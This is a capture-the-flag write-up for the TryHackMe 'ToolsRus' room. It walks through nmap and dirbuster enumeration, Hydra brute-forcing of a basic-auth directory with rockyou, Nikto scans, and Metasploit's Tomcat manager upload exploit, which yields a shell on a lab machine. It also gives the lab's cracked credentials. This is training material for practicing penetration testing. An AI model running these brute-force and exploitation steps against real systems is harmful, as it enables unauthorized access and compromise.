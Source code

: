 # ToolRUS

[ToolsRus](https://tryhackme.com/room/toolsrus)

## Enumeration

### Nmap Scan

```bash
┌──(root㉿kali)-[~]
└─# nmap -p- 10.10.91.232
Starting Nmap 7.93 ( https://nmap.org ) at 2025-10-11 11:35 UTC
Nmap scan report for ip-10-10-91-232.eu-west-1.compute.internal (10.10.91.232)
Host is up (0.0054s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1234/tcp open  hotline
8009/tcp open  ajp13
MAC Address: 02:69:9E:A5:66:CD (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.84 seconds
```

### Nmap -sV Scan

```bash
┌──(root㉿kali)-[~]
└─# nmap -p- 10.10.91.232 -sV
Starting Nmap 7.93 ( https://nmap.org ) at 2025-10-11 11:37 UTC
Nmap scan report for ip-10-10-91-232.eu-west-1.compute.internal (10.10.91.232)
Host is up (0.00033s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
MAC Address: 02:69:9E:A5:66:CD (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.47 seconds
```

## What directory can you find, that begins with a "g"?

### Use Dirbuster

- Enter URL
- Enter Path to Wordlists (seclists/Discover/Web-Content/directory-list-medium)

```bash
dirbuster
```

![Dirbuster results](attachment:771001cb-c32b-4db8-8789-51953d97dd81:image.png)

**The answer is: guidelines**

## Whose name can you find from this directory?

After going to the browser and entering the URL + directory, below is the output:

![Guidelines directory](attachment:ad5472cc-9707-4840-8924-2c8834b66102:image.png)

## What directory has basic authentication?

Again go to the browser and test our the directories, but based on the name of the directory "Protected" it seems more likely to be protected with authentication.

Lets test this out:

![Protected directory](attachment:c7f2a843-d38a-43d0-8d11-28bedf940f9f:image.png)

## What is bob's password to the protected part of the website?

Its time to do some password cracking. So what do we have currently?

1. A username: Bob
2. URL of the password protected directory

Lets use Hydra to try and crack this authentication:

```bash
hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.91.232 http-get "/protected/" -t 4 -V -f
```

And BOOM! we have the credentials as: **bubbles**

![Hydra cracking](attachment:082a9797-e668-4749-8f9e-2a5255773870:image.png)

## What other port that serves a webs service is open on the machine?

- Check Nmap Scan == **1234**

## What is the name and version of the software running on the port from question 5?

- Check nmap scan again with -A flag for complete scan: **Apache Tomcat/7.0.88**

![Nmap scan with version](attachment:c8359809-0a8a-4470-8715-f8624c7b9b67:image.png)

## Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above

```bash
nikto -h http://10.10.91.232:1234/manager/html -id <username>:<password> -o nikto_results.html -Format html
```

### How many documents

![Nikto results](attachment:e423406c-4557-46f4-8345-8ec8f645bd31:image.png)

### What is the server version?

```bash
┌──(root㉿kali)-[~]
└─# nikto -h http://10.10.91.232:80                                                                  
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.91.232
+ Target Hostname:    10.10.91.232
+ Target Port:        80
+ Start Time:         2025-10-11 11:47:26 (GMT0)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
```

## Use Metasploit to exploit the service and get a shell on the system

### Use Metasploit to exploit the service

1. Lets use the following exploit:

```bash
exploit/multi/http/tomcat_mgr_upload
```

2. Set the options:

```bash
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpPassword bubbles
HttpPassword => bubbles
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername bob
HttpUsername => bob
msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS HttpUsername
RHOSTS => HttpUsername
msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS 10.10.91.232
RHOSTS => 10.10.91.232
msf6 exploit(multi/http/tomcat_mgr_upload) > set RPORT 1234
RPORT => 1234
msf6 exploit(multi/http/tomcat_mgr_upload) > run
```

### What user did you get a shell as?

![Shell user](attachment:0227778c-e23d-4a67-b562-af9752fb4a10:image.png)

### What flag is found in the root directory?

![Root flag 1](attachment:9e1ffbcc-c42c-4e7c-bd6d-22be7a6f4558:image.png)

![Root flag 2](attachment:05a41f6b-90c2-4244-bff7-39b117606c02:image.png)
